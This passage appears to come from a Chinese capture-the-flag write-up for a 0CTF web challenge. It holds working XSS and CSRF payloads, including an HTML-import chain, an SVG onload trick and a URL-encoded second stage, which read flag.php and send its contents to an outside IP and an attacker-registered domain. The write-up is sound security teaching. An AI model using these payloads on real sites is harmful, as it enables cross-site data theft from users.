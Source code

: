 

![juhao2](https://mo-xiaoxi.github.io/img/post/0ctf/juhao2.png)



最终的payload：

 ```html
<link rel=import href=\\test。com
 ```

https://test。com/index.html

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```



#### 奇特的思路 svg

看了[LC↯BC](https://ctftime.org/team/15726)的题解，思路超级猥琐！

payload

```
<svg id=\ onload=location=id+id+12345609861+domain+id+1234+id
```

这个domain是取的当下页面的domain，也就是router.vip。所以，我们需要注册一个xxxxrouter.vip的域名。这种思路主要是因为.被过滤了。（俄罗斯人肯定不知道。可以过滤成.2333中文的强大😂）

然后，在 https://12345609861router.vip/1234/index.html下写了一个页面。将`<svg onload=location=name`提交给preview，完成二次xss触发。它会执行window.name中的东西，发送一个get请求，并把数据弹回来

```html
<html>
  <body>
    <form id="send" action="https://router.vip/preview.php?" method="POST">
      <input type="hidden" name="task" value="" />
      <input type="hidden" name="payload" value="&lt;svg&#32;onload&#61;location&#61;name" />
      <input type="hidden" name="geetest&#95;challenge" value="" />
      <input type="hidden" name="geetest&#95;validate" value="" />
      <input type="hidden" name="geetest&#95;seccode" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    window.name = "javascript:%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%78%68%72%2e%6f%70%65%6e%28%27%47%45%54%27%2c%20%27%68%74%74%70%73%3a%2f%2f%72%6f%75%74%65%72%2e%76%69%70%2f%66%6c%61%67%2e%70%68%70%27%2c%20%66%61%6c%73%65%29%3b%0a%78%68%72%2e%73%65%6e%64%28%29%3b%0a%69%66%20%28%78%68%72%2e%73%74%61%74%75%73%20%3d%3d%20%32%30%30%29%20%7b%0a%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%31%32%33%34%35%36%30%39%38%36%31%72%6f%75%74%65%72%2e%76%69%70%2f%31%32%33%34%2f%3f%72%65%73%75%6c%74%3d%27%2b%78%68%72%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d";
    document.getElementById("send").submit();
    </script>
```